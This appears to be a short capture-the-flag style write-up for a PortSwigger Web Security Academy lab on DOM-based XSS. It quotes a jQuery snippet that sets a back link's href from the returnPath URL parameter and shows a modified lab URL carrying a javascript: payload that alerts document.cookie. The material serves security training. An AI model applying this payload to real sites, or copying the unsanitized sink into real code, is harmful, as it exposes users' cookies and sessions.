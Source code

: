 # Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
# https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

``` bash
# Go to Submit feedback page and after that inspect back button.

<a id="backLink" href="/">Back</a>
<script>$(function() {$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath')); }); </script>

# The .attr method is used to set or get attributes of HTML elements.
# it is used to set the href attribute of the selected element (#backLink).

# We extract the returnPath value and set it to the href attribute of the backLink.
```
```bash
# This was the url

https://....web-security-academy.net/feedback?returnPath=/

# We will change it 

https://....web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```
